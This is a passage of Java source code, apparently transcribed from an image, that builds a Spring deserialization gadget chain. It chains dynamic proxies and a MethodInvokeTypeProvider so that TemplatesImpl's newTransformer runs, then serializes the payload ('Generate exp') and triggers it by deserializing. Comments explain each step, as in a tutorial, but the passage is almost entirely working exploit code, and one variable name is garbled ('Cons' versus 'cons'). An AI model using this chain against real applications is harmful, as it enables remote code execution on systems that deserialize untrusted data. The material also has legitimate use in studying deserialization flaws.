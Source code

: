 ```java
        InvocationHandler ofdHandler = (InvocationHandler) ofdConstructor.newInstance(factory);

        // ObjectFactoryDelegatingInvocationHandler itself is an InvocationHandler
        // Use it to proxy a class, so that the invoke method of ObjectFactoryDelegatingInvocationHandler will be triggered when this class is called.
        // We use it to proxy a class that is both Type and Templates(TemplatesImpl parent class)
        // In this way, this proxy class has two methods at the same time, which can be forced to be converted into the return value of TypeProvider.getType(), and can also find the newTransformer method in it.
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, ofdHandler);

        // Next, proxie the getType() method of TypeProvider, making it return the typeTemplateProxy proxy class we created
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);
        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // Use the getType method of the AnnotationInvocationHandler to dynamically proxy the TypeProvider to return typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // Initialize MethodInvokeTypeProvider
        Class<?> clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Cons = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);

        // Since the ReflectionUtils.invokeMethod(method, provider.getType()) will be called immediately when the MethodInvokeTypeProvider is initialized
// So when initializing, we can just give a Method, methodName we use reflection to write it in.
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field field = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        // Generate exp
        String exp = serialize(objects);
        System.out.println(exp);
        // Trigger exp
        unserialize(exp);
    }
}
```
